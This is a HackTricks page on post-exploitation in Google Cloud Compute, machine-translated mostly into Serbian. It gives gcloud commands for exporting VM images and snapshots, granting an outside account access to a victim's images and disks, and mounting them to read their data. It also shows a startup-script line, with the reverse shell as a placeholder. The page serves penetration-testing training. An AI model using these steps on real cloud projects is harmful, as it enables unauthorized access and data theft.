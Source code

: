 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Za više informacija o Compute i VPC (Mreženje) proverite:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Izvoz i inspekcija slika lokalno

Ovo bi omogućilo napadaču da **pristupi podacima sadržanim unutar već postojećih slika** ili **napravi nove slike pokrenutih VM-ova** i pristupi njihovim podacima bez pristupa pokrenutom VM-u.

Moguće je izvesti sliku VM-a u bucket, a zatim je preuzeti i montirati lokalno pomoću komande:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Pre izvođenja ove akcije, napadač može zahtevati privilegije nad skladišnim rezervoarom i sigurno **privilegije nad cloudbuild** jer je to **usluga** koja će biti zatražena da izvrši izvoz.\
Pored toga, da bi ovo funkcionisalo, codebuild SA i compute SA trebaju privilegovane dozvole.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` treba:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` treba:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Izvoz i inspekcija snimaka i diskova lokalno

Nije moguće direktno izvesti snimke i diskove, ali je moguće **transformisati snimak u disk, disk u sliku** i prateći **prethodni odeljak**, izvesti tu sliku da bi se inspektovala lokalno.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekcija slike kreiranjem VM-a

Sa ciljem pristupa **podacima pohranjenim u slici** ili unutar **aktivnog VM-a** odakle je napadač **napravio sliku,** moguće je omogućiti spoljašnjem nalogu pristup slici:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
и онда креирајте нови ВМ из тога:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ako niste mogli da date pristup svom spoljašnjem nalogu preko slike, mogli biste da pokrenete VM koristeći tu sliku u projektu žrtve i **naterate metapodatke da izvrše reverznu ljusku** za pristup slici dodajući parametar:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Sa ciljem pristupa **podacima pohranjenim na disku ili snimku, mogli biste transformisati snimak u disk, disk u sliku i pratiti prethodne korake.**

Ili biste mogli **dodeliti spoljašnjem nalogu pristup** disku (ako je početna tačka snimak, dodelite pristup snimku ili kreirajte disk iz njega):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Priključite disk** na instancu:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH u VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifikujte disk**: Kada ste unutar VM-a, identifikujte novi disk tako što ćete nabrojati disk uređaje. Obično ga možete pronaći kao `/dev/sdb`, `/dev/sdc`, itd.
3. **Formatirajte i montirajte disk** (ako je novi ili sirovi disk):
*   Kreirajte tačku montiranja:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montirajte disk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ako **ne možete dati pristup spoljnim projektima** za snapshot ili disk, možda ćete morati da **izvršite ove radnje unutar instance u istom projektu kao snapshot/disk**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
